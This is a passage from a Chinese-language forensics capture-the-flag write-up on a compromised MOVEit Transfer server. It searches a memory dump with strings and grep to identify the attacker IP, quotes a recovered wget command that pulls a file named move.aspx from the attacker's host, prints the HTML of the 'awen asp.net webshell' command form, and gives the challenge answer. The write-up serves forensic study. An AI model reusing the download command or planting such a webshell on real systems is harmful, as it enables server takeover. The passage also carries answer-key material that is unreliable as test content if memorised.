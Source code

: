 > 攻击者的 IP 地址是什么？

上一题中 `move.aspx` 文件，在内存中进行查找

```bash
Randark@DESKTOP-7HGIVVS MINGW64 /d/Downloads/iliketo
$ strings I-like-to-27a787c5.vmem | grep "move.aspx"
http://10.255.254.3:9001/move.aspx
http://10.255.254.3:9001/move.aspx
[33mhttp://10.255.254.3:9001/move.aspx
wget http://10.255.254.3:9001/move.aspx -OutFil
c:\MOVEitTransfer\wwwroot\move.aspx
c:\moveittransfer\wwwroot\move.aspx
......
```

对其中的特征点进一步筛选，并加上 `-A` 和 `-B` 参数查看上下 20 行的内容

或者使用 `R-Studio` 进行分析

![img](img/image_20240328-232816.png)

得到 `move.aspx` 文件的内容

```html
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body>
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwULLTE2MjA0MDg4ODhkZNVOZ3tV2TCTi+hEkha/q+A+5xP6tvrMtJaEupnndGLi" />

<input type="hidden" name="__VIEWSTATEGENERATOR" id="__VIEWSTATEGENERATOR" value="678AED88" />
<input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION" value="/wEdAANhi3zf7ocw6tYhjdSr5BwWitssAmaVIY7AayhB9duwcnk2JDuMxrvKtMBUSvskgfEkJOF+BOsGxdOjAd7jGUjGbwkQ2wl4sKonDxvg+iiKWg==" />
<input name="txtArg" type="text" value="whoami" id="txtArg" style="width:250px;Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" />
<input type="submit" name="testing" value="excute" id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" />
<span id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px">Command:</span>
</form>
</body>
</HTML>
```

```plaintext title="Answer"
10.255.254.3
```

## Task 3

> 最初的攻击使用的是什么用户代理？

上面就有
